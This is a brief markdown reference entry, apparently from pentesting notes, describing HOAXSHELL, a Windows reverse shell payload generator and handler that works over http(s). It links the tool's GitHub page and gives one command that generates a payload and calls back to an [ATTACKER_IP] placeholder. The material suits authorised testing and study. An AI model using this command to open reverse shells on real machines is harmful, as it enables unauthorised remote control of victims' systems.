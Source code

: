 ```yaml
---
title: HOAXSHELL
summary: A Windows reverse shell payload generator and handler that abuses the http(s) protocol to establish a beacon-like reverse shell.
description: A Windows reverse shell payload generator and handler that abuses the http(s) protocol to establish a beacon-like reverse shell.
---
```


**https://github.com/t3l3machus/hoaxshell**

## HOAXSHELL Basis


 > 
 > **<font color=red>sudo python3 hoaxshell.py -s</font> \[ATTACKER_IP\]**</br>
 > Create a reverse shell payload (that utilizes `Invoke-Expression`) and start a handler.
